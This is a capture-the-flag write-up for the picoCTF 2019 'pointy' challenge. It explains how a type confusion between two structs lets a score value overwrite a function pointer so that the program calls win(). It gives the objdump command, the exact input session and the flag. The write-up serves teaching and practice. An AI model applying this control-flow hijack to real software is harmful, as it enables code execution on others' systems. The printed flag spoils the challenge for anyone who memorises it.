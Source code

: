 ## Writeup for 2019 picoCTF: pointy

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign win's address to scoreProfessor. Access to scoreProfessor via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. lastscore and scoreProfessor have the same offset from the respective struct's address.  
2. The student and professor variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give win's address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to win(). Thus the next time student->scoreProfessor is called, win would be executed.  

### Solution: objdump
First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses, and pipe that ouput to grep to get only the win function section. You will 08048696 is the address in hex, which converts to 134514326 as int / unsigned int.  
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
